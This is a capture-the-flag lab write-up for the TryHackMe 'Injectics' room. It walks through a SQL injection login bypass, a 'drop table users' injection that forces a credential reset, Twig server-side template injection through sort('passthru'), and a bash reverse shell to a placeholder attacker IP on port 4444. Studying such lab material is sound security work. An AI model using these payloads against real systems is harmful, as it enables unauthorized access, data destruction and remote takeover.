




# Injectics THM

## Recon

### Page source

Found comment on `index.php`:

```html
<!-- Mails are stored in mail.log file-->
```

Its content:

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```

So we have default credentials after database is somehow deleted.

On `login.php` we found link to a JS file named `script.js`. Its content:

```js
$("#login-form").on("submit", function(e) {
    e.preventDefault();
    var username = $("#email").val();
    var password = $("#pwd").val();

	const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
            for (let keyword of invalidKeywords) {
                if (username.includes(keyword)) {
                    alert('Invalid keywords detected');
                   return false;
                }
            }

    $.ajax({
        url: 'functions.php',
        type: 'POST',
        data: {
            username: username,
            password: password,
            function: "login"
        },
        dataType: 'json',
        success: function(data) {
            if (data.status == "success") {
                if (data.auth_type == 0){
                    window.location = 'dashboard.php';
                }else{
                    window.location = 'dashboard.php';
                }
            } else {
                $("#messagess").html('<div class="alert alert-danger" role="alert">' + data.message + '</div>');
            }
        }
    });
});
```

It contains client side filter preventing SQL Injection. After attempting to log in with the credentials like `admin':pass` we have alert saying "Invalid keywords detected", but it's just bad implemented and we can simply skip that filtering phase using Burp Suite.

Another page `adminLogin007.php` is used to login as admin, maybe here we can use our gathered creds after database is deleted.

### Nmap scan

We found 2 open ports:

```
22/tcp open  ssh
80/tcp open  http
```

### Gobuster enumeration

We found directory `/phpmyadmin`, so we can assume that database is MySQL, Wappalyzer confirms that. After navigating here we have a login panel, but we are not bruteforcing it.

We also found file `/composer.json` with content `twig/twig:	"2.14.0"`, so there might be possibility of SSTI.

## Exploitation of SQL Injection

Capture login request with Burp Suite. It sends POST request to `/functions.php`. Send it to repeater and try to make a request. 


We tested an input likely to cause an error, such as `user'`, but the response remained unchanged. 

After some tries of injecting various payloads, I found one which gives us different response:



Using it directly on a login panel would return us an alert, so send it through Burp Suite. Make a normal request with login attempt, and in Burp change value of username to `user' or 'a' = 'a';#`

Now we are in a `dasboard.php` logged as dev. From what we know, he is one of admins. Assuming that website is vulnerable to SQL Injection, maybe there are also some flaws. We can edit countries medals in `edit_leaderboard.php`. We can try to type in "Gold" filed value like `20+40`. It redirected us to `dashboard.php`, but it now return result `60`.

We can try to use implemented function of "reseting" database. Come back here and type value `60; drop table users;#` to delete table "users" mentioned in file `mail.log`.



After injecting that, we have a response:

```
Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

So it turned out, that our payload worked. After a minute refresh a browser and login as admin on `adminLogin007.php` page with one of gathered credentials. We logged in succesfully as admin, and there is our first flag.

## Exploitation of SSTI Injection

We found a new page, `update_profile.php`. Knowing that a website uses Twig template, we can try to search for SSTI. On `dashboard.php` page we see a greeting "Welcome, admin!". It's the same as a value in "First Name" field on `update_profile.php` page. Modify it to somtehing like `{{7+7}}`. Submit it and return to "Home". We see new greeting, "Welcome, 14!". SSTI confirmed, let's exploit it.

After experimenting with various payloads, I discovered that the `sort` filter in Twig allows the use of `passthru` as a callable, leading to remote command execution.

```
{{['id', '']|sort('passthru')}}
```

After navigating to "Home", we have a greeting "Welcome, uid=33(www-data) gid=33(www-data) groups=33(www-data) Array!", so RCE through SSTI confirmed.



Let's try to make a reverse shell. Set up netcat listener on a port 4444 or whatever and inject payload:

```
{{['bash -c "exec bash -i >& /dev/tcp/[YOUR_IP]/4444 0>&1"', ''] | sort('passthru')}}
```



Click submit and return on "Home" page. It will make a connection to our machine. In a working directory is subdirectory `/flags`, go here and retrieve flag form a `.txt` file.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [YOUR_IP] from (UNKNOWN) [10.10.150.176] 57692
bash: cannot set terminal process group (710): Inappropriate ioctl for device
bash: no job control in this shell
www-data@injectics:/var/www/html$ ls
ls
...
flags
...
www-data@injectics:/var/www/html$ cd flags
cd flags
www-data@injectics:/var/www/html/flags$ ls
ls
5d8af1dc14503c7e4bdc8e51a3469f48.txt
```
